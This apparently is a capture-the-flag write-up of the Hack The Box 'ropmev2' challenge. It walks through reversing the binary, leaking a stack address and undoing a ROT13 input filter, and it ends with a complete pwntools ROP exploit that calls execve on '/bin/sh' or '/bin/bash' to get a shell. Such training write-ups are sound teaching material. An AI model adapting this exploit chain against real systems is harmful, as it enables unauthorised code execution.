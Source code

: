 ```yaml
---
layout: single
classes: wide
title: "HTB ropmev2 Writeup"
header:
  teaser: /assets/images/content/htb/ropmev2/teaser.png
excerpt: "ropmev2 was a fun binary exploitation challenge by [r4j](https://twitter.com/r4j0x00) in which we needed to rop our way through some twists to be able to build a successful exploit."
---
```


ropmev2 was a fun binary exploitation challenge by [r4j](https://twitter.com/r4j0x00) in which we needed to rop our way through some twists to be able to build a successful exploit.

We start by looking at the surface aspects of the binary. It is a 64-bit binary and `checksec` only reveals the NX protection. 

We use r2 to reverse it and figure out the execution flow. Basically everything is handled in the main function, so there's not much to say here.

![](/assets/images/content/htb/ropmev2/r2.png)

We ses printf prints the "welcoming" string: `"Please dont hack me"`, then there's a call to `read` that reads 500 bytes from stdin. Right after that there's an interesting call to `strcmp` that compares the entered string with `"DEBUG"` and then, if it is equal, printf gives us what at first glance seems to be a pointer loaded from a local variable. We can check out what it actually is by running the binary, inputting `"DEBUG"` and then analyzing with gdb.

We can break right after the call to `printf`: at `0x004011ee`. We can see that the binary outputted a value that seems to be the beginning of our stack. 

![](/assets/images/content/htb/ropmev2/gdb.png)

This leaked value could potentially be useful if we want to skip writing a `"/bin/sh"` to memory because instead we can simply use a stack address.

We run the binary for a quick test to see if what we input can modify the execution flow at all and we immediately notice something weird. If we input say `"A"*512` we cause a segmentation fault, but every overflowed register points to a string of all `"N"s`. These are not the `"A"s` we entered! There is clearly something happening in the background here.
At the end of `main` there was a call to an unusual function: `sub.strlen_238`. Taking a quick look at it, it seems this is the function causing this weird behavior. It can be hard to understand what this function does only reading asm code, so we'll open it in Ghidra to hopefully get some useful pseudocode :)

Once in Ghidra, we find the function and take a look at its decompilation:

![](/assets/images/content/htb/ropmev2/ghidra.png)

It seems all the function does is it subtracts `0xd` to every entered character `a-z;A-Z`. Hmmm... `0xd=13`, this function applies ROT13 to our input!

That figured out, using cyclic we can easily find the offset at which our input starts modifying the execution flow. We have to remember to ROT13 it before we check for an offset. We originally got `"rnnpsnnp"` overflowing into `RSP`, so after aplying the conversion we can check for an offset with `cyclic -l eaacfaac`:

![](/assets/images/content/htb/ropmev2/cyclic.png)

We have our offset at `216`. From here we can begin focusing into building our rop chain.

Looking at the binary more closely, we can find all the gadgets we nith + a syscall! This means the challenge is practically solved. We will load `59` into `RAX` for an execve syscall, load `"/bin/sh"` into `RDI` as our argument, and then zero out `RSI` and `RDX` to avoid any potential problems. For our pointer to the `"/bin/sh"` string, we can simply calculate the difference between the leaked value by our `"DEBUG"` input to the address were our second input gets stored. From there we can simply begin our payload with `"/bin/sh"`, put a bunch of junk in front of it to fill the offset until we overwrite `RSP`, and begin our rop chain. 

The final exploit looks like this (remember ROT13, we have to convert our `"/bin/sh"` to `"/ova/fu"` so that it gets converted back to `"/bin/sh"` by the binary):

```python
#!/usr/bin/python
from pwn import *

p = process("./ropmev2")

junk = "/ova/fu\x00".ljust(216, "A")

# Addresses
syscall = p64(0x0000000000401168)
pop_rax = p64(0x0000000000401162)
pop_rdi = p64(0x000000000040142b)
pop_rsi_r15 = p64(0x0000000000401429)
pop_rdx_r13 = p64(0x0000000000401164)

p.recvuntil("me")
p.sendline("DEBUG")
p.recvline()
leak = str(p.recvline())[-15:]
log.info("Leaked address: " + leak)

binsh = int(leak, 16) - 0xe0

payload = (junk
        + pop_rdi
        + p64(binsh)
        + pop_rax
        + p64(0x3b)
        + pop_rsi_r15
        + p64(0x00)*2
        + pop_rdx_r13
        + p64(0x00)*2
        + syscall)

p.recvuntil("me")
p.sendline(payload)

p.interactive()
```

And it gives us a local shell!

Now, the remote instance of the binary running in HTB servers had another twist: *there was no /bin/sh on the server*. When I was first doing the challenge I did struggle a lot with this, but it truly has a simple solution to it: all we need to do is change our `"/bin/sh"` (`"/ova/fu"`) to `"/bin/bash"` (`"/ova/onfu"`). That will give us a remote shell get us the flag for the challenge.

Hopefully this writeup was enjoyable and simple to understand, if you have any questions don't hesitate to contact me (c4e) on any of my socials or leave a comment below.
